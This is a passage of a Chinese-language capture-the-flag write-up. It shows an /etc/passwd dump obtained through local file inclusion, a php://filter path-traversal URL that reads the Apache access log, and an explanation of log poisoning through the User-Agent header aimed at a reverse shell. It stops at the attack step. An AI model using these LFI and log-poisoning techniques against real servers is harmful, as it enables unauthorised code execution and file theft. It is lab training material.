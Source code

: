 ```
解密以后得到用户名
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
archangel:x:1001:1001:Archangel,,,:/home/archangel:/bin/bash

```

由上面可知存在用户archangel.爆破了这个用户的ssh没有结果，只能想其他方法

这边经过测试，得到了apache的access.log的路径
```
/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```
# 分析
apache2.4-2.9的版本存在一个文件解析漏洞，结合LFI，我们可以把payload写进日志当中，然后在网页上访问这个日志文件，那么就可以触发反弹shell

首先，我们看正常的日志记录是这样的：
```
10.13.21.169 - - [02/Nov/2021:14:14:38 +0530] "GET /test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//etc/passwd HTTP/1.1" 200 1277 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0"
```

由上面日志可以知道，apache记录了url访问路径和User-Agent的信息

那么我们就可以把php代码写到User-Agent，以上面为例，我们期待的效果是这样的：
```
10.13.21.169 - - [02/Nov/2021:14:14:38 +0530] "GET /test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/..//..//..//..//etc/passwd HTTP/1.1" 200 1277 "-" "<php phpinfo(); ?>"
```

然后在浏览器访问这个日志

如果此时网页上能显示php版本信息，表示我们的php代码可以正常执行

## 攻击
开启burpsuite，我们把payload写到User-Agent：
```